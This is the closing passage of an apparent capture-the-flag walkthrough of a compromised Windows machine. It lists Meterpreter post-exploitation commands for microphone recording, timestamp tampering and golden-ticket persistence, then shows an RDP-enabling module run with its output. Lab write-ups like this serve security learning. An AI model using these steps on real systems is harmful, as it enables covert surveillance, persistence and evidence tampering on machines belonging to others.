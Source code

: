 - Use `record_mic` command if we want to record from a microphone attached to the system
- Use `timestomp` to modify the timestamps of files on the system
- Use `golden_ticket_create` of the Kiwi's commands allow us to create a golden ticket to maintain persistence and authenticate as any user on the domain.

One last thing to note. As we have the password for the user 'Dark', we can now authenticate to the machine and access it via remote desktop (MSRDP)
```bash
meterpreter > run post/windows/manage/enable_rdp
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
meterpreter > 
```

## Reference:

- (iceexec-adv.txt)[http://aluigi.altervista.org/adv/iceexec-adv.txt)
